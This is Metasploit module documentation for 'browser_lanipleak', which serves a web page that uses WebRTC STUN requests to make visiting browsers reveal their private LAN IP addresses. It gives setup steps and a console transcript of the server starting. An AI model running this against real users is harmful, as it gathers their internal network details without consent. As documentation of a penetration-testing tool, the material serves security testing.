 ## Vulnerable Application

This module retrieves a browser's network interface IP addresses using WebRTC.
However, after visiting the HTTP server, the browser can disclose a private IP address in a STUN request.

Related links : https://datarift.blogspot.in/p/private-ip-leakage-using-webrtc.html

## Verification

1. Start msfconsole
1. `use auxiliary/gather/browser_lanipleak`
1. Set `SRVHOST`
1. Set `SRVPORT`
1. run (Server started)
1. Visit server URL in any browser which has WebRTC enabled

## Scenarios

```
msf auxiliary(gather/browser_lanipleak) > show options 

Module options (auxiliary/gather/browser_lanipleak):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.1.104    yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  


msf auxiliary(gather/browser_lanipleak) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(gather/browser_lanipleak) > 
[*] Using URL: http://192.168.1.104:8080/mIV1EgzDiEEIMT
[*] Server started.

msf auxiliary(gather/browser_lanipleak) >
```
